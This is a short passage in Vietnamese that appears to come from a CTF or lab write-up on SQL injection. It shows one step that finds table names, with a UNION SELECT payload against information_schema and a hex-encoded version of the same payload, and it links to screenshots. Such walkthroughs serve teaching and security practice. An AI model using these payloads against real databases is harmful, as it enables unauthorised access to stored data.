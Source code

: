 ![1](img/49/Screenshot%20from%202023-01-31%2015-56-19.png)


- Tiếp theo ta tìm tên bảng:

`login='union select ' union select NULL,table_name from information_schema.tables where table_schema = database() -- - -- -` => `login = 'union select ' 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d202d  -- -`

![1](img/49/Screenshot%20from%202023-01-31%2015-55-27.png)
